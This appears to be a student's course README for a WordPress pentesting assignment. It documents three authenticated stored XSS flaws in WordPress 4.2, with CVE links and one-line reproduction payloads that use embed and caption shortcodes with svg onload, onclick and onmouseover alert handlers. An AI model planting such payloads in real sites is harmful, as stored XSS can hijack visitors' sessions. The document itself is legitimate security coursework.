 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) 4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [x] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.13
  - [x] GIF Walkthrough: 
  <img src='https://github.com/Hanyuatwork/Cyber_week_7/blob/master/Week7_1.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  
  - [x] Steps to recreate: 
    Try to post a new page, which include the embed code [embed src='https://youtube.com/embed/123\x3csvg onload=alert(1)\x3e'][/embed]
    
  - [x] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
    
1. (Required) WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.3
  - [x] GIF Walkthrough: 
   <img src='https://github.com/Hanyuatwork/Cyber_week_7/blob/master/Week7_2.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  - [x] Steps to recreate: 
  Try to post a new page, which include the code <a href="[caption code=">]</a><a title=" onclick=alert('XSS!')  ">link</a>
  
  - [x] Affected source code:
    - [Link 1](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622)
    
1. (Required) WordPress <= 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types:xss
    - Tested in version:4.2
    - Fixed in version: 4.3.1
  - [x] GIF Walkthrough: 
   <img src='' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  - [x] Steps to recreate: 
    Try to post a new page, which include the code [caption width="1" caption='<a href="' ">]</a><a href=" onmouseover='alert("XSS!")' ">Click</a>
  - [x] Affected source code:
    - [Link 1](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714)


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
